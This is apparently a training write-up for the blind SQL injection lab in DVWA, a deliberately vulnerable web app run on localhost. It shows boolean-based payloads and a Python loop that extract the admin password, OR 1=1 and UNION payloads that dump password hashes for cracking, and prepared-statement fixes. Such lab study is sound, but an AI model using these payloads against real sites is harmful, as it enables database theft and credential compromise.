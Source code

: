 ```yaml
---
description: http://localhost/DVWA/vulnerabilities/sqli_blind/
---
```


# SQLi Blind --

<details>

<summary>What is a SQL Injection Blind?</summary>

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as [`UNION` attacks](https://portswigger.net/web-security/sql-injection/union-attacks) are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

</details>

{% embed url="https://portswigger.net/web-security/sql-injection/blind" %}
[https://portswigger.net/web-security/sql-injection/blind](https://portswigger.net/web-security/sql-injection/blind)
{% endembed %}

{% hint style="info" %}
Using BurpSuite and the FoxyProxy extension is recommended.
{% endhint %}

## Low

We've an input type text that received an User ID in I by user and submit request using the Submit button:

<div align="left">

<figure><img src="../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

</div>

In SQL Blind we obtain a boolean result (exist or not exist) of our query, then we need to be able to ask correctly information from DB, make script can be the best approach.

<figure><img src="../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

This's our request captured by Burp Suite, while here below there's a php source code:

<figure><img src="../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

How the same in the low level, there're not input sanitation, then we can send what we want into input type text field. In this case request will arrive to DB located into webserver, but query will be preparared using php language.

Analyzing source code, we know that mysql query is:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

#### 1st Payload (length)

Regarding query and that our input type value is insert into $id variable, we need to do multiple question to DB regarding password length.

Then in this case, we can use following payload: `1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 31)='x' #`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 30)='x' #';
```

_admin password length is > 31?_

<div align="left">

<figure><img src="../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

</div>

User ID exists in the DB = true.

We need to continue to ask questions for obtain a correct value.

_admin password length is > 32?_

<div align="left">

<figure><img src="../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

</div>

No! Answer is wrong, then regarding last two answer, we know that admin password length has 32 characters.

Of course we can use an automated python script to do this automatically:

{% embed url="https://github.com/LeonardoE95/DVWA/blob/main/src/sqli_blind/low.py" %}

#### 2nd Payload (value)

starting with the first character, up to the last (which we know from the length we have just obtained) we must repeatedly query the DB asking whether or not the password character of the i-th position includes one of the possible alphanumeric characters.

```python
for i in range(1, password_length+1):
    for c in ALPHABET:
        sql_payload = f"1' AND (select substring(password, {i}, 1) from users where first_name='{username}')='{c}' #"
        if sql2bool(sql_payload):
            password += c
            print(c, end="", flush=True) # to print in a cool way
            break
```

Then, our query will be:

`1' AND (select substring(password, 1, 1) from users where first_name='admin')='5' #`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' AND (select substring(password, 1, 1) from users where first_name='admin')='5' #';
```

Is the first character of admin password equals to 'a'?

<div align="left">

<figure><img src="../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

</div>

No! again, is the first character of admin password equals to '5'?

<div align="left">

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

</div>

Very good, the first character is 5, then we can continue to increment index and redo all questions until the final string will be discovered.

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## Medium

Here, there're a select with range (1 to 5) to set User ID.

<div align="left">

<figure><img src="../.gitbook/assets/image (212).png" alt=""><figcaption></figcaption></figure>

</div>

In addition to low level, in the code below there're an escape string control and query variable $ID isn't enclosed by ''.



Our request include an ID + Submit values.

<figure><img src="../.gitbook/assets/image (216).png" alt=""><figcaption></figcaption></figure>

But, we can modify ID value using Burp Suite repeater function:

<figure><img src="../.gitbook/assets/image (217).png" alt=""><figcaption></figcaption></figure>

#### 1st Payload

Remembering that $ID variable isn't enclosed by '', escape string control isn't a matter.

Then in this case, we can use following payload: `1 OR 1=1 --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = 1 OR 1=1 -- ;
```

in the where condition there're a first search to user with this id '' OR a true condition, plus a comment.

<figure><img src="../.gitbook/assets/image (218).png" alt=""><figcaption></figcaption></figure>

#### 2nd Payload

How the low level, regarding that query selects: first\_name, last\_name field from users table, we can use [UNION](https://www.w3schools.com/sql/sql\_union.asp) operator to add a new query:  1 `UNION select first_name,password from users --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = 1 UNION SELECT first_name,password FROM users -- ';
```

<figure><img src="../.gitbook/assets/image (219).png" alt=""><figcaption></figcaption></figure>

We obtain hash of psw to eventually crack using tools such as: [Hashcat](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/hashcat) and [John The Ripper](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/john-the-ripper).

Note: Every `SELECT` statement within `UNION` must have the same number of columns.

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## High

In this level clicking on first page, we obtain a redirect to a second page to submit effectively our Session ID:

<figure><img src="../.gitbook/assets/image (214).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

<div align="left">

<figure><img src="../.gitbook/assets/image (220).png" alt=""><figcaption></figcaption></figure>

</div>

#### 1st Payload

In this case payload is always the same of low level, but we need to add it into second page, infact we've two request (GET and POST)

However, we can use following payload: `1' OR 1=1 --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1=1 -- ';
```

that permit us to see all DB results:

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

#### 2nd Payload

How last levels, we can use [UNION](https://www.w3schools.com/sql/sql\_union.asp) operator to add a new query:  `' UNION select first_name,password from users --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '' UNION SELECT first_name,password FROM users -- ';
```

<div align="left">

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

</div>

We obtain hash of psw to eventually crack using tools such as: [Hashcat](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/hashcat) and [John The Ripper](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/john-the-ripper).

Note: Every `SELECT` statement within `UNION` must have the same number of columns.

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## Impossible

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

The best solution is to sanitize query using a prepared statement, to delineate part static and dinamic (id) of query; take a binding parameter to check if is it an integer or char; insert a control to count rows number as result; and use a [CSRF](csrf.md) token.

All this permits to separate sql code with sql data/parameter insert by user.

## References

For the making of this solution the following resource were used:

* [https://github.com/LeonardoE95/DVWA/tree/main/src/sqli\_blind](https://github.com/LeonardoE95/DVWA/tree/main/src/sqli\_blind)

{% content-ref url="https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/main-contents/15-sql-injection" %}
[15 - SQL Injection](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/main-contents/15-sql-injection)
{% endcontent-ref %}

{% content-ref url="https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/sqlmap" %}
[SQLMap](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/sqlmap)
{% endcontent-ref %}
